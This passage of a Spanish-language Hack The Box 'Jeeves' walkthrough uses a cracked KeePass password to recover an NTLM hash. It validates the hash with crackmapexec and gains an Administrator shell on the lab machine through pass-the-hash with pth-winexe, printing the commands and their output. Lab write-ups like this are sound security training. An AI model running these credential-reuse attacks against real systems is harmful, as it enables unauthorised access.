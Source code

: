 Ya tenemos la contraseña `moonshine1`, así que vamos a utilizarla y ver el contenido del archivo `CEH.kdbx`.

![](/assets/images/htb-jeeves/jeeves-keepass1.png)

Viendo los usuarios, tenemos uno de nombre `?` y tiene de contraseña `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00` que parece ser un hash NTLM; por lo que podríamos pensar que sería el hash del usuario **Administrator**. Vamos a validarlo:

```bash
❯ crackmapexec smb 10.10.10.63 -u 'Administrator' -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00'
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

Vemos que podemos hacer *pass the hash* como el usuario **Administrator** ya que tenemos un `[+]` y al final un `(Pwn3d!)`.

```bash
❯ pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
jeeves\administrator

C:\Windows\system32>
```
